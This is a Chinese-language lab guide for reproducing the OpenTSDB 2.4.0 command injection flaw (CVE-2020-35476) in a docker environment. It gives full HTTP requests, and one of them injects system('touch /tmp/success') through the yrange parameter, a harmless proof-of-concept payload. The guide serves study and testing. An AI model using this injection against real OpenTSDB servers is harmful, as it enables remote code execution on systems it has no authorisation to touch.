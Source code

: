 # OpenTSDB 命令注入漏洞（CVE-2020-35476）

OpenTSDB是一款基于Hbase的、分布式的、可伸缩的时间序列数据库。在其2.4.0版本及之前，存在一处命令注入漏洞。

参考链接：

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## 漏洞环境

执行如下命令启动一个OpenTSDB 2.4.0：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到OpenTSDB的Web接口。

## 漏洞复现

利用这个漏洞需要知道一个metric的名字，我们可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看metric列表：

![](1.png)

我们这里的metrics是空的。

好在当前OpenTSDB开启了自动创建metric功能（`tsd.core.auto_create_metrics = true`），所以我们可以使用如下API创建一个名为`sys.cpu.nice`的metric并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

如果目标OpenTSDB存在metric，且不为空，则无需上述步骤。

发送如下数据包，其中参数`m`的值必须包含一个有数据的metric：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](2.png)

进入容器中可见`touch /tmp/success`已成功执行：

![](3.png)
